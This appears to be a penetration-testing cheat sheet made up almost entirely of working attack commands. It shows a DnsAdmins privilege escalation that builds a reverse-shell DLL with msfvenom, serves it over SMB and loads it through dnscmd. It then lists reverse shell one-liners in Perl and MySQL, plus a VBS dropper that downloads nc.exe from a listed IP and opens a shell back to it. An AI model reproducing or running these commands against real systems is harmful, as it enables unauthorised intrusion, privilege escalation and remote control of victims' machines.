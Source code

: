 First check the user's permission:
```
$ whoami /group
$ net user aaa /domain
```

If it has dnsadmin then:
- attack machine
Generate reverse shell:
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=attack_ip LPORT=4444 -f dll > privesc.dll
```
Run smb server:
```
$ sudo python smbserver.py share ./
```
Listen 4444 port:
```
$ nc -lvp 4444
```
- victim machine
```
$ dnscmd victim_ip /config /serverlevelplugindll \\attack_ip\share\privesc.dll
```
Don't forget to restart the dns server:
```
$ sc.exe \\victim_ip stop dns
$ sc.exe \\victim_ip start dns
```
## Reverse Shell
### FreeBSD
```
$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### CGI
```
#!/usr/bin/perl
require '/tmp/t.pl';
```
### MySQL
```
select cmdshell("C:\\nc.exe 10.11.0.186 4444 -e cmd.exe")
```
### vbs
use it to download nc.exe and reverse shell with cscript.
```
$ cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs
&@echo objXMLHTTP.open "GET","http://10.11.0.186/nc.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLH
TTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB
.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.
Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.
vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFi
le "nc.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objA
DOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=No
thing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vb
s&@echo objShell.Exec("nc.exe -e cmd.exe 10.11.0.186 4444")>>poc.vbs&cscript.exe poc.vbs"
```
### common
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
